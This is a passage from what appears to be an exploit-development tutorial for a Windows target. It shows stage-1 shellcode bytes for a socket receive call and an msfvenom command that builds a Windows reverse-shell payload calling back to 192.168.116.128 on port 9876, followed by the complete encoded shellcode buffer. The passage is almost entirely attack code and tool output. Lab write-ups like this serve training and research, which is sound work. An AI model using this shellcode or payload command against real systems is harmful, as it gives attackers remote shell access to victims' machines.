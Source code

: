 ```c
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"
```

We will be passing it into our stage 1 payload

## Crafting shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"
```
